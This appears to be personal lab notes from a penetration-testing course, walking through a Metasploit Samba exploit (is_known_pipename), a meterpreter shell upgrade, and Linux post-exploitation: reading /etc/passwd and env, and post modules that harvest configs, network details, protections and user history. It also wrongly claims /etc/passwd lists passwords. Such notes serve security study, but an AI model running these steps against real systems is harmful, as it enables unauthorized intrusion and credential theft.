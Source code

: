 * MSF provides various post-explitation modules to enumerate:
  * System configuration
  * Environment variables
  * Netwwork configuration
  * VM check
  * User history
 
* PRACTICAL
* Repeat steps till db_nmap
* As there is a vulnerable version of SMB running on this Linux system:
* `use linux/samba/is_known_pipename` --> Command shell session
* Put this one to background
* Raise the command shell to a meterpreter session:
  * `sessions -u [ID of the command shell]`
 
* Start a shell on  this Linux system:
  * `shell`
  * `/bin/bash -i`
  * `cat /etc/passwd` --> List all the passwords
  * `groups [name of the user]` --> Will tell the user group
  * `cat /etc/*issue` --> Release version of the ditribution
  * `uname -r` --> Kernel version
  * `uname -a` --> Additional info.
  * `ip a s` --> Info about network
  * `ps aux` --> All the processes on the system
  * `env` --> Environment variables for the current user
  * ***
  * **Post-exploitation modules**
  1. Enumerate Configuration files
    * `search enum_configs`
    * `use linux/gather/enum_configs`
        * Description:
        * This module collects configuration files found on commonly installed applications and services, such as Apache, MySQL, Samba, Sendmail, etc.
        * If a config file is found in its default path, the module will assume that is the file we want.
     
    * If one is using a workspace, the results can be displayed:
      * `loot`
      * It is used to display the information gathered by a post exploitation module from the Metasploit Framework database
      * `cat [path of the file in the list above]`
     
  2. Module for Environment variables
     * `search env platform:linux`
     * `use post/multi/gather/env`
     * `set session [ID]`
     * `run`
    
  3. Network module
     * `use post/linux/gather/enum_network`
    
  4. Protection systems/ Security Modules
     * `search enum_protections`
     * `use post/linux/gather/enum_protection`
     * Whether any system hardening mechanisms are in place.
     * `set session [ID]`
     * `run`
     * `notes` --> Results of the commands ran in the current context
    
  5. System modules
     * `use post/linux/gather/enum_system`
     * `set session [ID]`
     * `run`
    
  6. Whether a system is a docker container ora VM
     * `search checkcontainer`
     * `use post/linux/gather/checkcontainer`
     * `set session [ID]`
     * `run`
     * There are many modules that can be used to further attack the system, if it is a docker container.
     * `use linux/gather/checkvm`
     * `set session [Id]`
     * `run`
    
  7. USer History for all the user accounts
     * `use post/linux/gather/enum_users/history`
     * Sometimes users can also write down passwords or oother sensitive info which can be accessed through this module
